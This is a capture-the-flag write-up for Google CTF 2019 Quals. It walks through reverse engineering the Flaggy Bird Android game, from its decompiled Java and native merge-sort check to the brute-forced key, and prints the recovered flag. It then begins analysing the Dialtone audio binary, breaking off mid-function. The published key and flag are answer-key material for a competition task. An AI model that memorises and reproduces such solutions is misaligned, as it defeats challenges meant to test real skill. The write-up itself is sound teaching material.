







# 2019-06-22-Google-CTF-Quals #

[CTFTime link](https://ctftime.org/event/809) | [Website](https://capturetheflag.withgoogle.com/)

---

## Challenges ##

### Reversing ###

 - [231 Flaggy Bird](#231-reversing--flaggy-bird)
 - [189 Dialtone](#189-reversing--dialtone)
 - [140 Malvertising](#140-reversing--malvertising)

### Reversing ###

 - [271 SecureBoot](#271-Pwn--SecureBoot)

---

## 231 Reversing / Flaggy Bird ##

**Description**

> Overcome insurmountable obstacles then find the secret combination to get the flag.

**Files provided**

 - [flaggy-bird.apk](files/flaggy-bird.apk)

**Solution**

If we emulate the APK in Android Studio, we get a basic platformer where the goal is to navigate a bird to a goal.

> During the CTF, we could not get through the first jump of the second level, but this does not really matter since we managed to eventually get the flag from static analysis.

As always with an Android APK, we first run it through a [decompiler](https://www.apkdecompilers.com). We can also `unzip` the APK directly to get nicer access to the assets:

```
$ unzip flaggy-bird.apk
```

Apart from from libGDX files (a game development library for Java) and the usual Android app miscellany, we find the key package `com.google.ctf.game` in the `sources/com/google/ctf/game` directory with these classes:

 - [`AndroidLauncher`](files/flaggybird-decompiled/AndroidLauncher.java) - simply starts the app
 - [`Checker`](files/flaggybird-decompiled/Checker.java) -  flag checking
 - [`R`](files/flaggybird-decompiled/R.java) - some unimportant constants
 - [`a`](files/flaggybird-decompiled/a.java) - draws `scenery.png`, the background behind the game
 - [`b`](files/flaggybird-decompiled/b.java) - draws `bird.png`, the player character
 - [`c`](files/flaggybird-decompiled/c.java) - global game state?
 - [`d`](files/flaggybird-decompiled/d.java) - map rendering
 - [`e`](files/flaggybird-decompiled/e.java) - game manager, loads all other objects, loads a native library (`library.so`)
 - [`f`](files/flaggybird-decompiled/f.java) - map decoding, flag input logic
 - [`g`](files/flaggybird-decompiled/g.java) - physics engine, player interactions with flag input
 - [`h`](files/flaggybird-decompiled/h.java) - some interface which can take a string?
 - [`i`](files/flaggybird-decompiled/i.java) - UI and controls

Most of these classes are simple to understand and not very important for solving the challenge. `Checker` and `f` deserve a closer look.

### `Checker`

[`Checker`](files/flaggybird-decompiled/Checker.java) has three byte arrays. `a` has 32 entries, `b` has 16, and `c` has 320. Then three functions, of which one is `nativeCheck`, implemented in a separate `.so` object:

```java
private byte[] a(byte[] bArr, byte[] bArr2) {
  try {
    IvParameterSpec ivParameterSpec = new IvParameterSpec(b);
    SecretKeySpec secretKeySpec = new SecretKeySpec(bArr, "AES");
    Cipher instance = Cipher.getInstance("AES/CBC/PKCS5PADDING");
    instance.init(2, secretKeySpec, ivParameterSpec);
    return instance.doFinal(bArr2);
  } catch (Exception unused) {
    return null;
  }
}

public byte[] a(byte[] bArr) {
  if (nativeCheck(bArr)) {
    try {
      if (Arrays.equals(MessageDigest.getInstance("SHA-256").digest(bArr), a)) {
        return a(bArr, c);
      }
    } catch (Exception unused) {}
  }
  return null;
}

public native boolean nativeCheck(byte[] bArr);
```

The second `a` function is presumably the entry point for checking a flag (it is `public`). It:

 - takes a byte array
 - performs `nativeCheck` on it
 - checks if the SHA-256 hash of the input is equal to the `a` byte array (the one with 32 elements)
 - the byte array is used as a key for AES-CBC [decryption](https://docs.oracle.com/javase/7/docs/api/constant-values.html#javax.crypto.Cipher.DECRYPT_MODE), with `b` (the 16-element array) used as the IV and `c` (320-element) as the ciphertext

We don't know very much about the correct input array, but we can check if our input is correct using the SHA-256 hash, which is important. We also don't know what the result of the decryption is used for yet.

Next, we will investigate the `nativeCheck` function, which we can find in [`library.so`](files/flaggybird-decompiled/library.so). We will use the `x86_64` version. After loading the file, we will also add [this great header file](https://gist.github.com/Jinmo/048776db75067dcd6c57f1154e65b868) by Jinmo, which will reveal the names of JNI functions. With that, the `nativeCheck` function looks like this:

```c
bool __fastcall Java_com_google_ctf_game_Checker_nativeCheck(JNIEnv *jni, __int64 a2, jarray input)
{
  jarray input_; // r14
  jbyte *inputCopy; // rax
  char inputA[16]; // [rsp+0h] [rbp-68h]
  char inputB[16]; // [rsp+10h] [rbp-58h]
  char dest[16]; // [rsp+20h] [rbp-48h]
  unsigned __int64 cookie; // [rsp+30h] [rbp-38h]

  input_ = input;
  cookie = __readfsqword(0x28u);
  if ( ((*jni)->GetArrayLength)(jni, input) != 32 )
    return 0;
  inputCopy = ((*jni)->GetByteArrayElements)(jni, input_, 0LL);
  if ( inputA >= inputCopy + 32 || inputCopy >= dest )
  {
    *(_OWORD *)inputA = *(_OWORD *)inputCopy;
    *(_OWORD *)inputB = *((_OWORD *)inputCopy + 1);
  }
  else
  {
    inputA[0] = *inputCopy;
    inputA[1] = inputCopy[1];
    // ... inputA[2...14] = inputCopy[2...14];
    inputA[15] = inputCopy[15];
    inputB[0] = inputCopy[16];
    inputB[1] = inputCopy[17];
    // ... inputB[2...14] = inputCopy[18...30];
    inputB[15] = inputCopy[31];
  }
  dest[0] = inputA[0] + inputA[1];
  dest[1] = inputA[2] + inputA[3];
  // ... dest[2...6] = inputA[4,6...12] + inputA[5,7...13];
  dest[7] = inputA[14] + inputA[15];
  dest[8] = inputB[0] + inputB[1];
  dest[9] = inputB[2] + inputB[3];
  // ... dest[10...14] = inputA[4,6...12] + inputA[5,7...13];
  dest[15] = inputB[14] + inputB[15];
  success = 1;
  p = 0;
  M(dest, 16);
  return dest[15] < 16 && success != 0;
}
```

There are some unnecessary memory operations which take advantage of 128-bit operations, although the subsequent summing probably makes those pointless. To summarise:

 - the input array must be 32 bytes long
 - `dest` is a 16-byte-long buffer, where each element is the sum of two consecutive elements from the input array
 - the variables `success` and `p` are set up, then `M` is called on `dest`

The `M` function:

```c
void __fastcall M(char *data, signed int length)
{
  __int64 halfLength; // r13
  int v3; // er12
  char *v4; // rbp
  __int64 v5; // rbx
  int v6; // er14
  signed int v7; // eax
  char v8; // dl
  __int64 v9; // rbp
  char desta[16]; // [rsp+10h] [rbp-48h]
  unsigned __int64 cookie; // [rsp+20h] [rbp-38h]

  cookie = __readfsqword(0x28u);
  if ( length >= 2 )
  {
    halfLength = (unsigned int)length >> 1;
    M(data, (unsigned int)length >> 1);
    if ( success )
    {
      v3 = length - halfLength;
      v4 = &data[halfLength];
      M(&data[halfLength], length - halfLength);
      if ( success )
      {
        if ( v3 > 0 )
        {
          v5 = 0LL;
          v6 = 0;
          v7 = 0;
          while ( 1 )
          {
            v8 = v4[v6];
            if ( data[v7] >= v8 )
            {
              if ( data[v7] <= v8 || d[p] )
              {
FAILURE:
                success = 0;
                return;
              }
              ++p;
              desta[v5] = v4[v6++];
            }
            else
            {
              if ( d[p] != 1 )
                goto FAILURE;
              ++p;
              desta[v5] = data[v7++];
            }
            ++v5;
            if ( v7 >= (signed int)halfLength || v6 >= v3 )
              goto LABEL_17;
          }
        }
        v7 = 0;
        v6 = 0;
        LODWORD(v5) = 0;
LABEL_17:
        if ( v7 < (signed int)halfLength )
        {
          v9 = (unsigned int)(halfLength - 1 - v7);
          memcpy(&desta[(signed int)v5], &data[v7], v9 + 1);
          LODWORD(v5) = v5 + v9 + 1;
        }
        if ( v6 < v3 )
          memcpy(&desta[(signed int)v5], &data[halfLength + v6], (unsigned int)(length - 1 - v6 - halfLength) + 1LL);
        memcpy(data, desta, length);
      }
    }
  }
}
```

Takes a pointer and a length, does an operation on the first half recursively, then the second half recursively, then it is merged – this is clearly a [merge sort](https://en.wikipedia.org/wiki/Merge_sort), but there is a twist! Every time there is a comparison of two elements, its result must be equal to the next entry in the `d` array:

```
d = [
  0, 0, 0, 0, 1, 0, 0, 1,
  0, 1, 1, 1, 1, 0, 0, 0,
  1, 1, 0, 0, 1, 0, 1, 0,
  0, 0, 1, 1, 1, 0, 0, 0,
  1, 0, 0, 0, 0, 1, 1, 1,
  1, 1, 0, 1, 0
];
```

Furthermore, the result of a comparison can never be equality, so all elements must be unique.

Setting the `p` variable to `0` back in `nativeCheck` now makes sense – every time the function is called, the position in the comparison results array is reset. We also know how the `success` variable is modified, and we also have that `dest[15] < 16` *after* the merge sort.

Here we can make a guess (which will be confirmed later when reversing `f`): `dest` should contain all numbers from `0` to `15` exactly once. If this is the case, we can figure out what `dest` must be before it is sorted based on the `d` array. The method is to simply perform the merge sort just like the program. If a comparison fails, swap the two problematic elements around, then restart the sort. Repeat until the array is sorted completely without failing any of the comparison checks.

[Full merge sort reversing script](scripts/FlaggyBirdSort.hx)

```bash
$ haxe --run FlaggyBirdSort
FlaggyBirdSort.hx:12: [0,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15]
FlaggyBirdSort.hx:12: [1,0,2,3,4,5,6,7,8,9,10,11,12,13,14,15]
# ... etc
FlaggyBirdSort.hx:12: [9,8,7,2,11,14,13,10,6,5,15,4,3,0,12,1]
FlaggyBirdSort.hx:12: [9,8,7,2,11,15,13,10,6,5,14,4,3,0,12,1]
```

So if `dest` is `[9,8,7,2,11,15,13,10,6,5,14,4,3,0,12,1]`, `nativeCheck` will return true. Keep in mind that each element in the `dest` array is a sum of two elements from the `input` array, so without further knowledge about the `input` array, there are still too many possible inputs.

### `f`

[`f`](files/flaggybird-decompiled/f.java) is a bit longer, but the majority of the length is due to long arrays, enums, and switches. Let's examine the sections one at a time:

```java
static final a[] a = new a[]{a.EGG_0, a.EGG_1, /*...*/, a.EGG_15};
static final a[] b = new a[]{a.FLAG_0, a.FLAG_1, /*...*/, a.FLAG_15};
a[][] c;
int[][] d;
int e;
int f;
h g;
private int h = 190;
private int i = 46;
private d[][] j;
private int[][] k;
private a[] l;
private List<Integer> m;
private int n;
private int o;
```

`a` and `b` seem to be subsets of possible `enum a`((the single-letter name mangling is a bit annoying!) values in order. `h` and `i` could match the width and height of maps in the game. The remaining variables are harder or impossible to identify, so we'll move on for now.

```java
enum a {
    AIR,
    GROUND,
    DIAGONAL_A,
    // ...
    COMPUTER,
    EGG_HOLDER,
    EGG_0,
    // ...
    EGG_15,
    BACKGROUND,
    PORTAL,
    FLAG_0,
    // ...
    FLAG_15
}
```

`enum a` is an enumeration of all the possible map tiles.

```java
private void a(int i) {
  a(g.e.a(String.format("level%d.bin", new Object[]{Integer.valueOf(i)})).i());
}
```

This function takes a number as input, i.e. the level number, then passes the string `level<num>.bin` to `g.e.a(...).i()`. The latter is probably an asset loader which will return a byte array. This is then passed to another overload of `a`:

```java
private void a(byte[] bArr) {
  InflaterInputStream inflaterInputStream = new InflaterInputStream(new ByteArrayInputStream(bArr));
  byte[] bArr2 = new byte[(this.h * this.i)];
  if (inflaterInputStream.read(bArr2) == this.h * this.i) {
    // ...
  }
  throw new IOException();
}
```

Here we take the input stream and [inflate](https://en.wikipedia.org/wiki/DEFLATE) it. We can also confirm that `h` and `i` represent the map dimensions (commonly multiplied together to make a big array for storing the whole map).

Since we have access to the level files, we can inflate them ourselves to see what data the program is working with at this point.

```python
>>> import zlib
>>> zlib.decompress(open("level1.bin", "rb").read())
b'111111111111111111111111111111111111111111 ... 000000000000'
```

Here are the decompressed levels, with linebreaks inserted to show the 2D layout of the map clearly:

 - [`level1.txt`](files/flaggybird-level1.txt)
 - [`level2.txt`](files/flaggybird-level2.txt)
 - [`level3.txt`](files/flaggybird-level3.txt)

The overall structure of each level is more or less visible (`0` is air), but the details are hard to understand, since we don't know what symbol represents which tile. Let's continue with the `a` function:

```java
int i;
int i2;
this.c = new a[this.i][];
this.d = new int[this.i][];
this.k = new int[32][];
// set up 2D arrays
for (i = 0; i < this.i; i++) { // for each row
  this.c[i] = new a[this.h];
  this.d[i] = new int[this.h];
  for (i2 = 0; i2 < this.h; i2++) { // for each column
    this.d[i][i2] = -1;
  }
}
this.n = 0;
for (i = 0; i < this.i; i++) { // for each row
  for (i2 = 0; i2 < this.h; i2++) { // for each column
    // get a tile type (enum a) from the character somehow
    a a = a(bArr2[(this.h * i) + i2]);
    // put it into the map
    this.c[(this.i - i) - 1][i2] = a;
    if (a == a.EGG_HOLDER) {
      // for each egg holder, store its index in the map
      this.d[(this.i - i) - 1][i2] = this.n;
      // and its position in the array of egg holders
      this.k[this.n] = new int[]{i2, (this.i - i) - 1};
      this.n++;
    }
  }
}
// finally, set all egg holders to hold value 0 initially
this.l = new a[this.n];
for (int i3 = 0; i3 < this.l.length; i3++) {
  this.l[i3] = a.EGG_0;
}
this.m = new ArrayList();
return;
```

We can see now that the function goes through the decompressed output character by character and creates tiles. We also guessed at what the "eggs" represent – they are the interactible inputs in the final level, each of which can hold an "egg", a value from 0 to 15. The interactibility we can figure out from the physics class ([`g`](files/flaggybird-decompiled/g.java)). Some of the hints also come from the other functions that follow.

As the function adds tiles to the `c` array, it converts them from bytes using this function:

```java
private a a(byte b) {
  if (b == (byte) 65) {
    return a.DIAGONAL_AA;
  }
  if (b == (byte) 120) {
    return a.BACKGROUND;
  }
  switch (b) {
    case (byte) 49:
      return a.GROUND;
    case (byte) 50:
      return a.EGG_HOLDER;
    /* etc etc */
  }
}
```

The decompiler output is not very pretty here, creating unnecessarily nested switches. However, we can easily see the mapping of bytes to tile types, which we will use shortly. There is another `a` overload, which accepts tile types and returns elements from a 2D array, `j`:

```java
public d a(a aVar) {
  switch (aVar) {
    case AIR:
      return null;
    case COMPUTER:
      return this.j[5][1];
    case EGG_HOLDER:
      return this.j[4][1];
    // etc
  }
}
```

Since the tile types kept their names, we can figure out that the indices in the function correspond to XY coordinates (in tiles) in the [`tileset.png`](files/flaggybird-tileset.png) asset:



Now we can also show all the levels:





The final function of interest in the `f` class is this one:

```java
public void a(int i, int i2) {
  // set l[i] to EGG_<i2>
  this.l[i] = a[i2];
  
  // check if m contains i
  int i3 = -1;
  for (int i4 = 0; i4 < this.m.size(); i4++) {
    if (((Integer) this.m.get(i4)).intValue() == i) {
      if (i2 == 0) {
        // if it does and i2 == 0, remember the index in the m list
        i3 = i4;
      } else {
        // if it does and i2 != 0, done
        return;
      }
    }
  }

  // if i was found in m and i2 == 0, remove it from m
  if (i3 != -1) {
    this.m.remove(i3);
  }
  
  // if i2 != 0, add i to m
  if (i2 != 0) {
    this.m.add(Integer.valueOf(i));
    // if m has 16 or more elements now, remove the first one and set it to 0
    if (this.m.size() > 15) {
      this.l[((Integer) this.m.remove(0)).intValue()] = a.EGG_0;
    }
  }
}
```

The above version might be a bit confusing even with the comments. We can summarise the function as follows:

 - `setEgg(int eggIndex, int eggValue)`
   - set `eggs[eggIndex]` to `eggValue`
   - if `eggValue` (the new value for the egg) is non-zero:
     - if the egg was already set before, we've just changed its value to another one, we're done
     - if the egg was not set before AND there are now 16 or more eggs set to non-zero values, set the one that was touched least recently to zero and forget about it
   - if `eggValue` is zero:
     - if the egg was already set before, forget about it

In other words, only 15 of the 32 egg holders in level 3 can contain a non-zero egg value.

### Decoding the flag

Now we can put all the pieces together to get the correct solution for the eggs:

 - `input` is an array of 32 elements (or eggs)
 - each element can be a number from `0` to `15` inclusive (there are only 16 egg types)
 - only 15 elements can be non-zero
 - the sums of consecutive pairs of `input` must be `[9,8,7,2,11,15,13,10,6,5,14,4,3,0,12,1]`
 - we know the SHA-256 hash of the correct `input`

There are 15 non-zero `input` elements and 15 non-zero pair sums - so we know that in each pair of `input` elements, only one can be non-zero.

```
9 = input[0]  + input[1]  = 9 + 0 OR 0 + 9
8 = input[2]  + input[3]  = 8 + 0 OR 0 + 8
7 = input[4]  + input[3]  = 7 + 0 OR 0 + 7
2 = input[6]  + input[3]  = 2 + 0 OR 0 + 2
...
1 = input[30] + input[31] = 1 + 0 OR 0 + 1
```

Since the zero pair is fixed, we have 15 binary choices, giving us a total of `2 ** 15 == 32768` possibilities, a very small number for brute-forcing.

[Full key-finding script here](scripts/flaggyBirdKey.py)

```bash
$ python3 flaggyBirdKey.py 
[9, 0, 0, 8, 0, 7, 2, 0, 0, 11, 0, 15, 13, 0, 10, 0, 6, 0, 0, 5, 14, 0, 0, 4, 0, 3, 0, 0, 12, 0, 1, 0]
```

Next, we use the recovered key to decrypt the `c` array from [`Checker`](#checker).

```bash
$ python3 flaggyBirdFlag.py
```

The [output](files/flaggybird-flag.txt) is another level. Clearly there are letters spelling out the flag using the `FLAG_*` tiles from the tileset, but they are a bit hard to read. Luckily, we already figured out the level format, so we can see the flag as it would appear in the game:


`CTF{Up_d0WN_TAp_TAp_TAp_tHe_b1rd_g0Es_flaG_flaG_flaG}`

## 189 Reversing / Dialtone ##

**Description**

> You might need a pitch-perfect voice to solve this one. Once you crack the code, the flag is CTF{code}.

**Files provided**

 - [dialtone](files/dialtone)

**Solution**

Looking at the file in IDA, we can immediately see references to some `pa_...` functions. We can confirm our suspicions with `ldd`:

```bash
$ ldd a.out 
	linux-vdso.so.1 =>  (0x00007ffd1f1b6000)
	libpulse.so.0 => /usr/lib/x86_64-linux-gnu/libpulse.so.0 (0x00007f34b722c000)
	libpulse-simple.so.0 => /usr/lib/x86_64-linux-gnu/libpulse-simple.so.0 (0x00007f34b7028000)
	libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007f34b6d22000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f34b6959000)
	libjson-c.so.2 => /lib/x86_64-linux-gnu/libjson-c.so.2 (0x00007f34b674e000)
	libpulsecommon-4.0.so => /usr/lib/x86_64-linux-gnu/pulseaudio/libpulsecommon-4.0.so (0x00007f34b64e7000)
	libdbus-1.so.3 => /lib/x86_64-linux-gnu/libdbus-1.so.3 (0x00007f34b62a2000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f34b6084000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f34b7678000)
	libxcb.so.1 => /usr/lib/x86_64-linux-gnu/libxcb.so.1 (0x00007f34b5e65000)
	libwrap.so.0 => /lib/x86_64-linux-gnu/libwrap.so.0 (0x00007f34b5c5b000)
	libsndfile.so.1 => /usr/lib/x86_64-linux-gnu/libsndfile.so.1 (0x00007f34b59f2000)
	libasyncns.so.0 => /usr/lib/x86_64-linux-gnu/libasyncns.so.0 (0x00007f34b57ec000)
	librt.so.1 => /lib/x86_64-linux-gnu/librt.so.1 (0x00007f34b55e4000)
	libXau.so.6 => /usr/lib/x86_64-linux-gnu/libXau.so.6 (0x00007f34b53e0000)
	libXdmcp.so.6 => /usr/lib/x86_64-linux-gnu/libXdmcp.so.6 (0x00007f34b51da000)
	libnsl.so.1 => /lib/x86_64-linux-gnu/libnsl.so.1 (0x00007f34b4fc0000)
	libFLAC.so.8 => /usr/lib/x86_64-linux-gnu/libFLAC.so.8 (0x00007f34b4d8f000)
	libvorbisenc.so.2 => /usr/lib/x86_64-linux-gnu/libvorbisenc.so.2 (0x00007f34b4ae6000)
	libresolv.so.2 => /lib/x86_64-linux-gnu/libresolv.so.2 (0x00007f34b48cb000)
	libogg.so.0 => /usr/lib/x86_64-linux-gnu/libogg.so.0 (0x00007f34b46c2000)
	libvorbis.so.0 => /usr/lib/x86_64-linux-gnu/libvorbis.so.0 (0x00007f34b4497000)
```

There is a number of audio codec libraries linked but, most importantly, the [Pulse Audio library](https://www.freedesktop.org/wiki/Software/PulseAudio/), which can deal with audio input and output on Linux. Let's have a look at the decompiled `main` function:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax
  int result; // eax
  __int64 v5; // rax
  char v6; // [rsp+18h] [rbp-28020h]
  char v7; // [rsp+8018h] [rbp-20020h]
  int v8; // [rsp+2801Ch] [rbp-1Ch]
  int v9; // [rsp+28020h] [rbp-18h]
  char v10; // [rsp+28024h] [rbp-14h]
  unsigned int v11; // [rsp+28028h] [rbp-10h]
  int v12; // [rsp+2802Ch] [rbp-Ch]
  __int64 v13; // [rsp+28030h] [rbp-8h]

  v13 = pa_simple_new(0LL, *argv, 2LL, 0LL, "record", &ss_3811, 0LL, 0LL, &v11);
  if ( v13 )
  {
    v8 = 0;
    v9 = 0;
    v10 = 0;
    do
    {
      if ( (signed int)pa_simple_read(v13, &v6, 0x8000LL, &v11) < 0 )
      {
        v5 = pa_strerror(v11);
        fprintf(stderr, "pa_simple_read() failed: %s\n", v5);
        return 1;
      }
      x(&v6, &v7);
      v12 = r(&v8, &v7);
      if ( v12 < 0 )
      {
        fwrite("FAILED\n", 1uLL, 7uLL, stderr);
        return 1;
      }
    }
    while ( v12 );
    fwrite("SUCCESS\n", 1uLL, 8uLL, stderr);
    pa_simple_free(v13, 1LL);
    result = 0;
  }
  else
  {
    v3 = pa_strerror(v11);
    fprintf(stderr, "pa_simple_new() failed: %s\n", v3);
    result = 1;
  }
  return result;
}
```

The program connects to a pulse audio server using the [simple API](https://freedesktop.org/software/pulseaudio/doxygen/simple.html). The sample spec `ss_3811` specifies 1 channel at 44100 Hz, and the stream description is "record" - the program will try to access the microphone.

Then we have a loop, reading samples into an audio buffer (`v6`), `0x8000` bytes at a time. The `x` function is called on that audio buffer, somehow transfers data into another buffer (`v7`), then the success / failure is determined based on the second buffer in the function `r`.

Let's have a look into `x`:

```c
void __fastcall x(__int64 a1, __int64 a2)
{
  signed int v2; // [rsp+14h] [rbp-Ch]
  signed int j; // [rsp+18h] [rbp-8h]
  signed int i; // [rsp+1Ch] [rbp-4h]

  bit_flip(a1, a2);
  for ( i = 1; i <= 13; ++i )
  {
    v2 = 1 << i;
    for ( j = 0; j <= 0x1FFF; j += v2 )
      y(a2, (unsigned int)j, v2);
  }
}
```

And the accompanying `y` function:

```c
void __fastcall y(__int64 a1, __int64 a2, signed int a3)
{
  double v3; // ST48_8
  double *v4; // rax
  double v5; // ST30_8
  double v6; // ST38_8
  signed __int64 v7; // rdx
  __int128 v8; // xmm2
  __int128 v9; // xmm3
  double *v10; // rbx
  double *v11; // rbx
  signed int v12; // [rsp+10h] [rbp-60h]
  int i; // [rsp+5Ch] [rbp-14h]

  v12 = a3;
  for ( i = 0; i < v12 / 2; ++i )
  {
    cexp(a1, a2);
    v3 = -0.0 * (long double)i / (long double)v12;
    v4 = (double *)(16LL * ((signed int)a2 + i) + a1);
    v5 = *v4;
    v6 = v4[1];
    v7 = 16LL * (i + (signed int)a2 + v12 / 2);
    v8 = *(unsigned __int64 *)(v7 + a1);
    v9 = *(unsigned __int64 *)(v7 + a1 + 8);
    complex_mul(v3);
